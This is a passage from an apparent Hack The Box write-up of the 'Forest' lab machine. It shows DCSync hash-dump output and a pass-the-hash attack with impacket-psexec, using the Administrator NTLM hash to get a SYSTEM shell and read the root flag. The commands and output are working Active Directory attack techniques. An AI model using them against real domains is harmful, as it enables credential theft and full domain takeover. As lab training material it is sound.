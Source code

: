 ```DCSync Privilege``` is added to our new user, we can easily dump all hashes using ```DCSync Attack```
aidenpearce369:des-cbc-md5:07fd8615a7c498b0
FOREST$:aes256-cts-hmac-sha1-96:9314a457b8b3f34e9b5ec2ffc39329c3ff00dd3514a1ed5c6cdf445882946517
FOREST$:aes128-cts-hmac-sha1-96:55394fdffa1beff12e98abe8ccec8e3d
FOREST$:des-cbc-md5:758ac8c20e5e43f7
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up...
```

Now we have the ```NTLM hash``` of ```Administrator```

## Lateral Movement

Lets use the ```NTLM hash``` of the ```Administrator``` to perform ```Pass The Hash``` attack

Using ```psexec``` for ```PTH``` attack,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ impacket-psexec htb.local/Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file GxOgHmkQ.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service MMTl on 10.10.10.161.....
[*] Starting service MMTl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
FOREST

C:\Windows\system32> cd ../../
 
C:\> cd Users\Administrator\Desktop
 
C:\Users\Administrator\Desktop> more root.txt
<ROOT FLAG>

C:\Users\Administrator\Desktop> 
```

We can also use ```wmiexec``` and many other tools along with the ```NTLM hash``` of the ```Administrator```

After dumping all hashes, it would be a ```full domain takeover```
